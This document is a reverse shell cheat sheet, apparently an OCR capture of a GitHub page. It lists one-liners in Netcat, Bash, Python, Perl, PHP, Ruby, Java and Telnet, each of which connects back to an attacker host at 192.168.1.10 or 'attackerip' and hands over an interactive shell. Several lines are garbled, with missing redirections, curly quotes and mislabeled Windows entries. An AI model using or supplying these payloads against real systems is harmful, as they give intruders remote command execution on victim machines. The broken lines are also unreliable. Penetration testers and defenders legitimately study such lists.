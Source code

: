 # Reverse Shell Cheat Sheet
***********
### Netcat:
nc 192.168.1.10 443 -e /bin/bash

/bin/sh | nc 192.168.1.10 443

rm -f /tmp/p; mknod /tmp/p p && nc 192.168.1.10 443 0/tmp/p

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f

### Bash:
bash -i >& /dev/tcp/192.168.1.10/443 0>&1

/bin/bash -i > /dev/tcp/192.168.1.10/443 0<&1 2>&1

0<&196;exec 196<>/dev/tcp/192.168.1.10/443; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/192.168.1.10/443
cat <&5 | while read line; do $line 2>&5 >&5; done

exec 5<>/dev/tcp/192.168.1.10/443
cat <&5 | while read line 0<&5; do $line 2>&5 >&5; done

### Python:
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.10”,443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’

### Perl:
*nix:
perl -e ‘use Socket;$i=”192.168.1.10″;$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’

### Windows:
perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”192.168.1.10-IP:443″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’

perl -e ‘use Socket;$i=”192.168.1.10″;$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’

### PHP:
php -r ‘$sock=fsockopen(“192.168.1.10”,443);exec(“/bin/sh -i <&3 >&3 2>&3”);’

### Ruby:
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.10”,443).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’

### Windows
ruby -rsocket -e ‘c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’

### Java:
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.10/443;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()

### Telnet:
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.10 443 0/tmp/p

telnet 192.168.1.10 443 | /bin/bash | telnet 192.168.1.10 443
